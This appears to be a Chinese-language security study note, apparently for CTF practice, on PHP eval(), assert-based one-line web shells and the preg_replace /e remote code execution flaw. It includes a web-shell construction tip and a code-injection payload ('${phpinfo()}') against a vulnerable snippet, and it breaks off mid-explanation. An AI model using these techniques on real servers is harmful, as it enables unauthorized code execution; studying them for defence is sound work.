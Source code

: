 
## `eval()`

将字符串作为php代码执行

**eval()是一个语言构造器，不能被可变函数调用**
```bash
eval(eval(...)) #错误
eval(assert(eval(...))) #正确

<?php assert(POST['a']) ;> #错误
#由于php版本问题，也不能直接用assert构造一句话，所以只能采用eval(assert(eval(...)))

```

---
## `sizeof`

返回**数组**长度

---
## `preg_match`

- [[../../../编程语言/正则表达式]]

```php
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```

搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。

- $pattern: 要搜索的模式，可以是字符串或一个字符串数组。
- $replacement: 用于替换的字符串或字符串数组。
- $subject: 要搜索替换的目标字符串或字符串数组。

---
### /e 模式

**preg_replace** **/e** 模式下存在 RCE，php 7 被删除

#### 实战

注入环境：
```php
preg_replace( '/(' . $key . ')/ei', 'strtolower("\\1")', $value );
```
- key、value 是 GET 传入的键值对
- `/ei` 表示替换内容当作 php 执行


payload1：
```
 ?\S*=${phpinfo()}
```
- `\S` 利用 GET 上传的非法字符解析原理，解析成 `.` 
- `.*` 是 key，`${phpinfo()}` 是 value
- `.*` 贪婪匹配任意字符任意次，匹配 `${phpinfo()}`
- php 执行 `strtolower("{${phpinfo()}}")`
- 原理如下
